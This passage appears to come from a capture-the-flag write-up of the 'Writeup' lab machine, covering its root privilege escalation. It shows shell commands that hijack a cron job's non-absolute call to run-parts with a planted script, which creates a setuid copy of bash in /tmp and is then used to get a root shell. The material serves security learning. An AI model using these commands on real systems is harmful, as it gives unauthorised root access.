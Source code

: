 ```bash
2021/07/15 17:38:01 CMD: UID=0    PID=12931  | /usr/sbin/CRON 
2021/07/15 17:38:01 CMD: UID=0    PID=12932  | /bin/sh -c /root/bin/cleanup.pl >/dev/null 2>&1 
```

I remade the payload, adding executable permissions:

```bash
jkr@writeup:~$ echo '#!/bin/sh' > /usr/local/sbin/run-parts
jkr@writeup:~$ echo 'cp /bin/bash /tmp/twig && chmod u+s /tmp/twig && chmod +x /tmp/twig' >> /usr/local/sbin/run-parts
jkr@writeup:~$ chmod +x /usr/local/sbin/run-parts
```

I then ran it - I just had to tell bash not to drop privileges with the `-p` flag!

![](/assets/images/blogs/Pasted image 20210715223211.png)

We can also confirm there's no ssh key while we're here:

```bash
twig-4.4# ls -la /root/.ssh
ls: cannot access '/root/.ssh': No such file or directory
```

# Key Lessons

- I got to practice hijacking non-absolute paths in cron jobs
- I also learned the trick about copying `/bin/bash` to a new file and applying `u+s` permissions to get a shell
